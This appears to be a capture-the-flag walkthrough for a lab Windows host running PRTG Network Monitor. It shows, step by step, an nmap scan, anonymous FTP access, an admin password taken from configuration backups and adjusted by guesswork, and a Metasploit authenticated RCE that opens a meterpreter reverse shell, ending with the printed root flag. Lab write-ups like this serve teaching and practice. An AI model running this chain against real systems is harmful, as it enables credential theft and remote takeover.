

# How to solove ?

## add Lame to /etc/hosts
sudo vim /etc/hosts

## scan on nmap 
`nmap -sC -sV -sT -Pn  10.10.10.152`

<details><summary>nmap 実行結果</summary>   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-09 12:37 JST
Nmap scan report for 10.10.10.152
Host is up (0.25s latency).
Not shown: 994 closed ports
PORT      STATE    SERVICE      VERSION
21/tcp    open     ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49176/tcp filtered unknown
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-09T03:38:01
|_  start_date: 2021-02-09T03:36:13

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.84 seconds
</details>

###  Summary
PORT    STATE SERVICE     VERSION   
21/tcp    open     ftp          Microsoft ftpd
80/tcp    open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49176/tcp filtered unknown

ftp = ftp-anon: Anonymous FTP login allowed (FTP code 230)

### TIPS
Anonymous FTP 
user : anonymous
password : any


## connect FTP
`ftp> dir`
```
200 PORT command successful.
150 Opening ASCII mode data connection.
```

### TIPS
150 Opening ASCII mode data connection.
以上のように表示された場合、
ftpのmodeがactive になっている
そのため、passiveに変更する必要がある
```
ftp> open 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:hage): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> passive
Passive mode on.
```
接続した後、`passive`で変更することができる

## Get user.txt
```
ftp> dir
227 Entering Passive Mode (10,10,10,152,200,150).
150 Opening ASCII mode data connection.
02-02-19  11:18PM                 1024 .rnd
02-25-19  09:15PM       <DIR>          inetpub
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-03-19  07:08AM       <DIR>          Users
02-25-19  10:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd User
550 The system cannot find the file specified. 
ftp> cd Users
250 CWD command successful.
ftp> dir
227 Entering Passive Mode (10,10,10,152,200,151).
150 Opening ASCII mode data connection.
02-25-19  10:44PM       <DIR>          Administrator
02-02-19  11:35PM       <DIR>          Public
226 Transfer complete.
ftp> cd public
250 CWD command successful.
ftp> dir
227 Entering Passive Mode (10,10,10,152,200,152).
150 Opening ASCII mode data connection.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
227 Entering Passive Mode (10,10,10,152,200,155).
150 Opening ASCII mode data connection.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.31 secs (0.1042 kB/s)
```
ftp中にget  file_name でファイルをダウンロードすることができる
`type user.txt`

### Look for something remarkable
`/Users/Public/` には、めぼしいもの無し

### TIPS
#### googling "PRTG Network Monitor configuration"
You can find "https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data".   

ここら辺が怪しそう?かな

nmapより
```
| ftp-syst: 
|_  SYST: Windows_NT
```
#### ls -a 
<details><summary>/Program Files (x86)/  配下</summary>   

```
ftp> ls -a
227 Entering Passive Mode (10,10,10,152,194,195).
150 Opening ASCII mode data connection.
11-20-16  09:46PM       <DIR>          $RECYCLE.BIN
02-02-19  11:18PM                 1024 .rnd
11-20-16  08:59PM               389408 bootmgr
07-16-16  08:10AM                    1 BOOTNXT
02-03-19  07:05AM       <DIR>          Documents and Settings
02-25-19  09:15PM       <DIR>          inetpub
02-09-21  01:30AM            738197504 pagefile.sys
07-16-16  08:18AM       <DIR>          PerfLogs
02-25-19  09:56PM       <DIR>          Program Files
02-02-19  11:28PM       <DIR>          Program Files (x86)
02-25-19  09:56PM       <DIR>          ProgramData
02-03-19  07:05AM       <DIR>          Recovery
02-03-19  07:04AM       <DIR>          System Volume Information
02-03-19  07:08AM       <DIR>          Users
02-25-19  10:49PM       <DIR>          Windows

ftp> cd "programdata\Paessler\PRTG Network Monitor"
250 CWD command successful.

ftp> ls -a
227 Entering Passive Mode (10,10,10,152,194,239).
150 Opening ASCII mode data connection.
02-09-21  01:31AM       <DIR>          Configuration Auto-Backups
02-09-21  01:31AM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
02-09-21  01:31AM       <DIR>          Logs (Web Server)
02-09-21  01:31AM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
02-09-21  01:32AM              1637530 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
226 Transfer complete.
```

</details>

#### Get configuration File 
```
ftp> get "PRTG Configuration.old"
local: PRTG Configuration.old remote: PRTG Configuration.old
227 Entering Passive Mode (10,10,10,152,195,0).
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 8.50 secs (136.6967 kB/s)

ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
227 Entering Passive Mode (10,10,10,152,195,3).
150 Opening ASCII mode data connection.
226 Transfer complete.
1189697 bytes received in 9.53 secs (121.8855 kB/s)

ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
227 Entering Passive Mode (10,10,10,152,195,12).
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 16.58 secs (67.9585 kB/s)

ftp> ^Z

```
#### Looks Like id, password?
view `PRTG Configuration.old.bak`
```
  <!-- User: prtgadmin -->
	      PrTg@dmin2018
```
より
User : prtgadmin
Password : PrTg@dmin2018
だと考える。

しかし、機能しません。
```
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
```
より、2018年のパスワードが
`PrTg@dmin2018`
であることから
現在のぱすわーどは2019年へと変更された？
`PrTg@dmin2019`

## login at web page
http://10.10.10.152
User : prtgadmin  
Password : PrTg@dmin2019  
でログインできました。

http://10.10.10.152/welcome.htm
## search exploit
```
msf6 > search PRTG

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/prtg_authenticated_rce
```
 ## Get Shell
```
msf6 > use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/prtg_authenticated_rce) > Interrupt: use the 'exit' command to quit
msf6 exploit(windows/http/prtg_authenticated_rce) > set admin_password PrTg@dmin2019
admin_password => PrTg@dmin2019
msf6 exploit(windows/http/prtg_authenticated_rce) > set RHOSTS 10.10.10.152
RHOSTS => 10.10.10.152
msf6 exploit(windows/http/prtg_authenticated_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/http/prtg_authenticated_rce) > show options 

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  PrTg@dmin2019    yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.152     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                            no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting

   msf6 exploit(windows/http/prtg_authenticated_rce) > exploit 

[*] Started reverse TCP handler on 10.10.14.11:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2020)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to 10.10.10.152
[*] Meterpreter session 2 opened (10.10.14.11:4444 -> 10.10.10.152:50442) at 2021-02-09 16:12:51 +0900

meterpreter > cd c:\users\administrator\desktop
meterpreter > pwd
c:\users\administrator\desktop
meterpreter > cat root.txt
3018977fb944bf1878f75b879fba67cc

```